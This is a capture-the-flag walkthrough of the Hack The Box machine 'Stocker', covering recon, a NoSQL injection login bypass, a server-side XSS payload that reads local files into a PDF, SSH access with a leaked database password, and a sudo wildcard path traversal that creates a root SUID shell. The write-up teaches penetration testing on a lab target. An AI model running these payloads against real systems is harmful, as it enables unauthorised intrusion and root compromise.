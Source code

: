 ## HTB: Stocker Walkthrough

### Recon

#### Nmap Scan
```bash
nmap -p- --min-rate 10000 10.10.11.196
nmap -p 22,80 -sCV 10.10.11.196
```
- Open Ports: 22 [SSH](SSH), 80 [HTTP](HTTP)
- Hostname Redirects to: `stocker.htb`
- Added `stocker.htb` and `dev.stocker.htb` to `/etc/hosts`

#### Subdomain Discovery
```bash
ffuf -u http://10.10.11.196 -H "Host: FUZZ.stocker.htb" -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac
```
- Found `dev.stocker.htb`

#### Web Enumeration
- `stocker.htb` is a static site
- `dev.stocker.htb` is an Express.js application with a login form

### Shell as angoose

#### NoSQL Injection Auth Bypass
```json
{"username": {"$ne": "0xdf"}, "password": {"$ne":"0xdf"}}
```
- Logs in successfully due to likely NoSQL-based auth.

#### PDF File Read via Server-Side XSS (SSXSS)
- Purchase items and manipulate `title` field in basket JSON.
- Injected JS payload:
```js
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```
- Retrieved `/etc/passwd` and `/var/www/dev/index.js`

#### Found MongoDB URI
```js
'mongodb://prod_user:IHeardPassphrasesArePrettySecure@localhost/prod?authSource=admin&w=1'
```
- Tried SSH with these creds: `ssh angoose@stocker.htb`

#### Gained access:
```bash
sshpass -p 'IHeardPassphrasesArePrettySecure' ssh angoose@stocker.htb
```

### Shell as root

#### Sudo Rights
```bash
sudo -l
(ALL) /usr/bin/node /usr/local/scripts/*.js
```
- Scripts are owned by root and unreadable, but wildcard allows path traversal

#### Exploiting Path Traversal in sudo
```javascript
// /dev/shm/0xdf.js
require('child_process').exec('cp /bin/bash /tmp/0xdf; chown root:root /tmp/0xdf; chmod 4777 /tmp/0xdf')
```
```bash
sudo node /usr/local/scripts/../../../dev/shm/0xdf.js
/tmp/0xdf -p
```

#### Gained Root Access
```bash
/tmp/0xdf -p
cat /root/root.txt
```

---

### Summary
- NoSQL Injection for initial login
- Server-Side XSS to read files from the host
- Exfiltrated DB credentials to access SSH
- Wildcard misconfiguration in sudo allows path traversal to arbitrary root shell

Rooted `Stocker` 🎉